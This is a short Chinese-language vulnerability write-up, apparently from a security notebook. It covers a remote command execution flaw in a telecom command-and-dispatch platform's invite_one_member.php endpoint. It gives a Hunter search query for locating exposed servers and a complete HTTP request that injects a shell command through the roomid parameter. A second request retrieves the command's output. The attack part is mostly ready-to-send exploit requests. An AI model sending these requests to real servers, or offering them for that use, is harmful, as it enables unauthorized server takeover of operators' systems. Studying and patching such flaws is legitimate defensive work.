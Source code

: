 # 指挥调度平台invite_one_member存在远程命令执行漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">指挥调度管理平台是一个专业针对通信行业的管理平台。该产品旨在提供高效的指挥调度喝管理解决方案，以帮助通信运营商或相关机构实现更好的运营效率和服务质量。该平台提供强大的指挥调度功能，可以实时监控和管理通信网络设备、维护人员和工作任务等。用户可以通过该平台发送指令、调度人员、分配任务。指挥调度平台invite_one_member存在远程命令执行漏洞，攻击者可通过该漏洞获取服务器权限。</font>

# <font style="color:rgb(51, 51, 51);">三、资产测绘</font>
+ <font style="color:rgb(51, 51, 51);">hunter</font>`<font style="color:rgb(51, 51, 51);">web.body="app/structure/departments.php"</font>`
+ <font style="color:rgb(51, 51, 51);">特征</font>

![1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74.png](./img/HiSRlR6oYxF5SC60/1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74-490622.png)

# <font style="color:rgb(51, 51, 51);">四、漏洞复现</font>
```plain
GET /api/client/audiobroadcast/invite_one_member.php?callee=1&roomid=`id>1.txt` HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=9d162ed31bcb785f6f5cb1fcc92dfff2
Upgrade-Insecure-Requests: 1
```

![1704269514170-dd697dbd-3d30-4627-b5a8-7c8c9311b12f.png](./img/HiSRlR6oYxF5SC60/1704269514170-dd697dbd-3d30-4627-b5a8-7c8c9311b12f-410619.png)

获取命令执行结果

```plain
GET /api/client/audiobroadcast/1.txt HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=9d162ed31bcb785f6f5cb1fcc92dfff2
Upgrade-Insecure-Requests: 1
```

![1704269557671-017c3bf2-7d59-4077-9366-383b169516b1.png](./img/HiSRlR6oYxF5SC60/1704269557671-017c3bf2-7d59-4077-9366-383b169516b1-896745.png)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qrlgzdlrg8kwz94r>